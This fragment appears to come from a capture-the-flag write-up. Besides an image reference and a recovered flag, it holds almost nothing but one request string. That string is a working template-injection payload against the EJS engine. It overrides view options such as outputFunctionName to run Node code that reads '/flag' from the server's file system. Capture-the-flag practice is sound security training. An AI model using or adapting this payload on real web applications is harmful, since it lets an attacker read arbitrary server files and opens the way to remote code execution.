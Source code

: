 





text=1&settings[view+options][outputFunctionName]=a;__append(global.process.mainModule.constructor._load('fs').readFileSync('/flag'));a&settings[view+options][openDelimiter]=%3d&settings[view+options][closeDelimiter]=%25&filename=falg&debug=1&rmWhitespace=1&delimiter[0]=

FLAG{I_th1nk_cyku_i5_0ur_w3b_g0d}